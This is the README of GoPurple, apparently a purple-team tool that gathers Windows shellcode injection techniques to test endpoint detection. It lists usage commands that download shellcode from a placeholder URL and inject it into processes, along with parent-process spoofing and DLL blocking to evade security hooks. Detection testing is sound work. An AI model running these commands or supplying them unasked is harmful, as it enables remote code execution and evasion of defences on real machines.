


# GoPurple

This project is a simple collection of various shell code injection techniques, aiming to streamline the process of endpoint detection evaluation, beside challenging myself to get into Golang world.


# Installation

1 - Requires [go](https://golang.org/dl/) installed on a windows machine.

2-  Build the application from the project's directory: go build gopurple.go


```
  _____                              _
  / ____|                            | |
 | |  __  ___  _ __  _   _ _ __ _ __ | | ___
 | | |_ |/ _ \| '_ \| | | | '__| '_ \| |/ _ \
 | |__| | (_) | |_) | |_| | |  | |_) | |  __/
  \_____|\___/| .__/ \__,_|_|  | .__/|_|\___|
              | |              | |
              |_|              |_|   by @s3cdev

 -a string
        Program command line arguments
  -b string
        block DLL mode (nonms/onlystore for QueueUserAPC )
  -p int
        Process ID to inject shellcode into
  -prog string
        program to inject into
  -t string
        shellcode injection technique to use:
         1: CreateFiber
         2: syscall
         3: CreatetThreadNative
         4: CreateProcess
         5: EtwpCreateEtwThread
         6: CreateRemoteThread
         7: RtlCreateUserThread
         8: CreateThread
         9: CreateRemoteThreadNative
         10: CreateProcessWithPipe
         11: QueueUserAPC
         12: CreateThreadpoolWait
         13: BananaPhone
  -u string
        URL hosting the shellcode

```


# Examples:

A shellcode needs to be generated,this can be done using tools such as [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) or [shad0w](https://github.com/bats3c/shad0w). Then the shellcode needs to be hosted to be remotely downloaded and executed on the remote machine.
For the sake of clarity, the below demos illustrate different ways of using the tool.

1 - Shellcode injection using BananaPhone method + Shad0w as the shellcode generator




2 - Shellcode injection using QueueUserAPC technique + Shad0w as the shellcode generator +  spoofing the parent ID (explorer as the parent ID) +  process launching by spoofed parent that contains the shellcode(calc) + protecting the process from unsigned DLL hook, so only Microsoft signed DLL can hook into the process.




3- Shellcode injection using CreateFiber + msfvenom as the shellcode generator


# How To Use:

```
1 - gopurple.exe -u urlhostingpayload -t 1 (CreateFiber)

2 - gopurple.exe -u urlhostingpayload -t 2 (Syscall)

3 - gopurple.exe -u urlhostingpayload -t 3 (CreatetThreadNative)

4 - gopurple.exe -u urlhostingpayload -t 4 (CreateProcess)

5 - gopurple.exe -u urlhostingpayload -t 5 (EtwpCreateEtwThread)

6 - gopurple.exe -u urlhostingpayload -t 6 -p tagetprocess (CreateRemoteThread)

7 - gopurple.exe -u urlhostingpayload -t 7 -p tagetprocess (RtlCreateUserThread)

8 - gopurple.exe -u urlhostingpayload -t 8 //(CreateThread)

9 - gopurple.exe -u urlhostingpayload -t 9 -p tagetprocess (CreateRemoteThreadNative)

10 - gopurple.exe -u urlhostingpayload -t 10 -prog porgram -a processargument (ex:C:\Windows\System32\WindowsPowerShell\v1.0) and processargument(ex:Get-Process)  (CreateProcessWithPipe)

11 - gopurple.exe -u urlhostingpayload -t 11 -p targetpidasparentprocess -prog programtoinjectshellcodeinto -b methodtoblockdll(nonms or onlystore)  (QueueUserAPC)

nonms = only DLLs that are signed by Microsoft can hook into the process

onlystore = only Microsoft store application's process can hook into the process  

12 -  gopurple.exe -u urlhostingpayload -t 12 (CreateThreadpoolWait)
 
13 - gopurple.exe -u urlhostingpayload -t 13 (BananaPhone)
```


# Acknowledgments:

All the credits go to following guys for their awesome researches,tools and inspiration: 

* [ne0nd0g](https://twitter.com/ne0nd0g): Most of the codes and techniques

* [spotheplanet](https://twitter.com/spotheplanet): The [blogpost](https://www.ired.team/offensive-security/code-injection-process-injection/shellcode-execution-via-createthreadpoolwait) inspired me to convert the method to Golang

* [_d00mfist](https://twitter.com/_d00mfist): Great implementation of QueueUserAPC technique in Golang 

* [c__sto](https://twitter.com/c__sto): Amazing BananPhone technique 

* [_batsec_](https://twitter.com/_batsec_): The great shad0w

* [chiragsavla94](https://twitter.com/chiragsavla94): Inspired from [ProcessInjection](https://github.com/3xpl01tc0d3r/ProcessInjection)


# References

(https://github.com/Ne0nd0g/go-shellcode)

(https://www.ired.team/)

(https://github.com/D00MFist/Go4aRun)

(https://github.com/BishopFox/sliver)

(https://posts.specterops.io/going-4-a-run-eb263838b944)

(https://github.com/C-Sto/BananaPhone)

(https://blog.xpnsec.com/protecting-your-malware)

(https://github.com/3xpl01tc0d3r/ProcessInjection)


# Future Plans

* Shellcode Encryption
* More structured code


# Legal Disclaimer
This project is made for educational and ethical testing purposes only.Usage of GoPurple for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developer assume no liability and are not responsible for any misuse or damage caused by this program


